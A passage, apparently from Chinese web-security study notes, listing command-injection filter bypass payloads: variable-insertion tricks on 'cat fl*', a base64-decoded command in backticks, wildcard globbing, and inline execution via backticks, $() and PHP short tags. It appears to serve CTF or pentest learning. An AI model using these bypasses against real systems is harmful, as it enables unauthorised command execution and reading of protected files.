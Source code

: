 ```
ca${x}t fl*
ca${LOVE}t fl*
c${x}a${LOVE}t f${666}l*
```

**编码绕过**

```
`echo 'Y2F0Cg==' | base64 -d` flag.txt
```

**正则表达式绕过**

```
cat f*
cat ??a*
```

#### 2.绕过命令执行函数

**编码绕过**

![img](PictureFile/【Web】TOP漏洞.assets/v2-010549dea37a2f1827ccfe654fb04617_720w.webp)

**内敛执行绕过**

```text
echo `ls`;
echo $(ls);
?><?=`ls`;
?><?=$(ls);
```
